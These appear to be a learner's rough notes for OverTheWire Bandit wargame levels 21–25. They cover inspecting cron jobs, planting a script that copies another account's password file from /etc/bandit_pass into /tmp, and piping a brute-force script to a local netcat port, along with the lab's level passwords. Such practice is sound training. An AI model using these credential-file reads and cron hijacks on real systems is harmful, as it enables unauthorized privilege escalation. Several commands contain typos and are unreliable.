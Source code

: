level 21-22
cd /etc/cron.d
ls a directory
vim /etc/cron.d/
ls /etc/cron.d/
cat /etc/cron.d/cronojob_bandit22 @reboot bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null ****** bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
cat /usr/bin/cronjob_bandit22.sh
#!/bin/bash
chmod 644 /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
cat /etc/bandit_pass/bandit22 > /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
Yk7owGAcWjwMVRwrTesJEwB7WVOiILLI
exit
level 22-23
ssh bandit22@bandit.labs.overthewire.org -p 2220
us
cat /etc/cron.d/cronojob_bandit23 @reboot bandit23 /usr/bin/cronjob_bandit23.sh &> /dev/null ****** bandit23 /usr/bin/cronjob_bandit23.sh &> /dev/null
whoami
myname
myname=bandit23
echo I am user name $myname | md5sum l cut -d '' -f 1
8ca319486bfbbc3663ea0fbe81326349
cat /tmp/8ca319486bfbbc3663ea0fbe81326349
jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
exit 
level 23-24
ssh bandit23@bandit.labs.overthewire.org -p 2220
jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
ls /etc/cron.d
cat /etc/cron.d/cronojob_bandit24 @reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null ****** bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
cat /etc/cron.d/cronojob_bandit24.sh
cat /usr/bin/cronjob_bandit24.sh
mkdir /tmp/bandit-pass24
chmod 777 /tmp/bandit-pass24/
vim get-pass.sh
which bash
cat /etc/bandit_pass/bandit24 > /tmp/bandit-pass24/password.txt
chmod +x get-pass.sh
date
ls /tmp/bandit-pass24/password.txt
cat /tmp/bandit-pass24/password.txt
UoMYTrfrBFHyQXmg6gzctqAwOmw1Iohz
exit

level 24-25
ssh bandit24@bandit.labs.overthewire.org -p 2220
UoMYTrfrBFHyQXmg6gzctqAwOmw1Iohz
nc locahost 30002
mkdir /tmp/bandit-pass25
cd /tmp/bandit-pass25
vim script.sh
chmod +x script.sh
ls -l
./script.sh | nc locahost 30002
uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
